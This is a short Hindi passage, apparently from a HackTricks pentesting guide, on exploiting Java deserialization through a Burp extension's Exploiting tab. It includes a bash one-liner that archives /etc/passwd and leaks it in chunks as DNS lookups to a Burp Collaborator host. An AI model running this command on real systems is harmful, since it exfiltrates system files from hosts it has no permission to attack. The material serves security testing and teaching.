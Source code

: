 एक बार जब आपने एक वल्नरेबल लाइब्रेरी की पहचान कर ली है तो आप अनुरोध को _Exploiting Tab_ में भेज सकते हैं।\
इस टैब में आपको फिर से **injection point** का **चयन** करना होगा, और **वल्नरेबल लाइब्रेरी** लिखनी होगी जिसके लिए आप पेलोड बनाना चाहते हैं, और **कमांड**। फिर, उपयुक्त **Attack** बटन दबाएं।

![](<../../.gitbook/assets/4 (1).png>)

### Java Deserialization DNS Exfil जानकारी

अपने पेलोड को निम्नलिखित कुछ करने के लिए निष्पादित करें:
```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```
### अधिक जानकारी

* [https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)

<details><summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>
